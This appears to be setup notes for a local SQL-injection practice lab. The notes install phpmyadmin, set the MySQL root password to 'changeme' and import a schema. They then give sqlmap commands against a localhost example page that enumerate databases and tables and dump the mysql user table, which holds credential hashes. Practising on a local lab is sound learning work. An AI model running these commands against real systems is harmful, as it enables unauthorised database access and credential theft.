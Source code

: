 
apt-get install gedit phpmyadmin

mysql
use mysql 
update user set password=PASSWORD("changeme") where User='root';
flush privileges;

then http://localhost/phpmyadmin/ and import the schema


sqlmap -u http://localhost/sqlinjection_examples/example1.php?username= --dbs

sqlmap -u http://localhost/sqlinjection_examples/example1.php?username= -D mysql --tables

sqlmap -u http://localhost/sqlinjection_examples/example1.php?username= -D mysql -T user --dump


